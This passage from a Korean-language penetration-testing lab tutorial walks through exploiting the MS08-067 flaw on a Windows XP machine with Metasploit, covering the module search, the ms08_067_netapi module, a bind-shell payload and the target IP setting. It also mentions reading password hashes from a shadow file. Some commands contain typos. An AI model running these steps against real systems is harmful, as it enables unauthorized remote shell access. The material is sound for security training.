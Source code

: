 그러면 위와 같이 hash정보를 담은 shadow 파일의 정보들을 확인할 수 있다.

(2) Windows XP 공격

취약점 분석 결과창에서 윈도우 xp의 결과로 들어가보자

[MIXED]Microsoft Windows(Multiple Issues) > [CRITICAL]MS08-067

다음과 같은 취약점을 통해 공격을 할 것이다. 

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/654d6db1-fd3d-476c-926a-9789dc737017/XP_.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/654d6db1-fd3d-476c-926a-9789dc737017/XP_.png)

상세설명 오른쪽아래에 Exploit할 수 있는 툴이 나와있다. 우리는 이 중 'metasploit'을 이용할 것이다. 

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3063ca8c-ac72-4cdf-8f77-43e545e3c2c3/metasploit_.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3063ca8c-ac72-4cdf-8f77-43e545e3c2c3/metasploit_.png)

kali linux 커맨드 창에서 metasploit을 실행시키자

```jsx
root@kali ~# msfconsole
```

취약점 분석을 통해 찾아낸 취약점에 대한 적절한 모듈을 메타스플로잇에서 검색한다. 

```jsx
msf > search ms08-067
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7674ca9d-3f9d-46e5-b00c-40b2199dc26f/search_ms_08_.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7674ca9d-3f9d-46e5-b00c-40b2199dc26f/search_ms_08_.png)

찾아낸 모듈을 사용하자 

```jsx
msf > use exploit/winds/smb/ms08_067_netapi
```

'show payloads' 명령어를 통해 사용가능한 payloads들을 확인할 수 있다.

```jsx
> show payloads
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e1787b8c-36b7-4674-80ab-897048c0e82c/search_payloads.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e1787b8c-36b7-4674-80ab-897048c0e82c/search_payloads.png)

그 중 windows/shell/bind_tcp 사용

```jsx
> set payloads window/shell/bind_tcp
```

그리고 옵션을 열어 입력해줄 요소들을 확인한다.

```jsx
> show options
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/609dd11c-c646-4a96-a914-7ab83fea7b0a/show_options.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/609dd11c-c646-4a96-a914-7ab83fea7b0a/show_options.png)

module options에 목록들을 설정해준다.

```jsx
> set RHOST 10.0.2.4 //rhost에는 공격할 대상의 IP를 입력한다.
```
